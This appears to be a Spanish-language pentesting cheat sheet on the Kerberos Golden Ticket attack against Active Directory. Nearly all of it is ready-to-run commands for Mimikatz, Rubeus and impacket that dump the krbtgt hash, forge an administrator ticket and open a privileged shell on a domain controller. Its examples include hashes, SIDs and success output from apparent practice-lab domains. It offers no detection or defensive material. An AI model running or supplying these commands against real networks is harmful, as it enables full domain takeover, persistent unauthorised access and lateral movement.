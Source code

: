 # Golden Ticket Attack

- Cuando comprometemos la cuenta krbtgt, ya owneamos el dominio.
- Podemos solicitar acceso a cualquier recurso o sistema dentro del dominio.
- Golden tickets == Completar acceso a cualquier maquina.

## Mimikatz
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`
- Ahora generamos el golden ticket:
    - `kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:SID /krbtgt:NTLM /id:500 /ptt`
    - el `/id:500` significa el RID de administrador de maximos privilegios.
- `misc::cmd` para abrir un command prompt privilegiado

### Ejemplo mimikatz

```
kerberos::golden /user:administrator /domain:painters.htb /sid:S-1-5-21-1470357062-2280927533-300823338 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-2734290894-461713716-141835440-4601 /ptt
mimikatz # User      : administrator
Domain    : painters.htb (PAINTERS)
SID       : S-1-5-21-1470357062-2280927533-300823338
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-2734290894-461713716-141835440-4601 ; 
ServiceKey: 4b6af2bf64714682eeef64f516a08949 - rc4_hmac_nt      
Lifetime  : 06/03/2025 13:59:25 ; 04/03/2035 13:59:25 ; 04/03/2035 13:59:25
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ painters.htb' successfully submitted for current session

```

## Rubeus
- `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`

### Ejemplo:
- `impacket-ticketer -nthash 4b6af2bf64714682eeef64f516a08949 -domain-sid S-1-5-21-1470357062-2280927533-300823338 -domain PAINTERS.HTB administrator`
- `ls administrator.ccache`
- `export KRB5CCNAME=administrator.ccache`

```
└─$ klist                         
Ticket cache: FILE:administrator.ccache
Default principal: administrator@PAINTERS.HTB

Valid starting       Expires              Service principal
03/06/2025 09:34:13  03/04/2035 09:34:13  krbtgt/PAINTERS.HTB@PAINTERS.HTB
	renew until 03/04/2035 09:34:13
```

- `sudo mousepad /etc/resolv.conf` y agregamos `nameserver IP-DC` para resolver el nombre del DC.